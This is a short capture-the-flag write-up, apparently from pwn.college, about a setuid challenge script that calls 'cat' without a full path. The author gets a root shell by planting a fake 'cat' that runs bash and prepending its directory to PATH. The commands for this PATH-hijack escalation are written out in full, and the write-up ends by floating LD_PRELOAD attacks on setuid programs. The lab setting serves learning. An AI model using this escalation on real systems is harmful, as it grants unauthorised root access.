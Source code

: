 ```bash
hacker@hello~intro-to-commands:~$ hello
Success! Here is your flag: <flag>
```
Ugh. Boring.
Let's have some fun.

```bash
hacker@hello~intro-to-commands:~$ whereis hello
hello: /challenge/bin/hello

hacker@hello~intro-to-commands:~$ strings /challenge/bin/hello 
#!/opt/pwn.college/bash
fold -s <<< "Success! Here is your flag:"
cat /flag

# huh.

hacker@hello~intro-to-commands:~$ cat /flag
cat: /flag: Permission denied

# That's definitly a setuid bit.
# You thinking what I'm thinking ?

# /flags is a proper path, but cat isn't
# This is almost too easy

hacker@hello~intro-to-commands:~$ mkdir -p /tmp/mybin
echo '#!/bin/bash' > /tmp/mybin/cat
echo 'bash' >> /tmp/mybin/cat
chmod +x /tmp/mybin/cat

hacker@hello~intro-to-commands:~$ PATH="/tmp/mybin:$PATH"  hello
Success! Here is your flag:
root@hello~intro-to-commands:~#

# welp, that was easy.
# tried installing cowsay for the lols, but it has no internet
# ah well
```
Something to ponder: can you hack any setuid'ed bit by LD_PRELOAD'ing ? what if you attack execve ? 
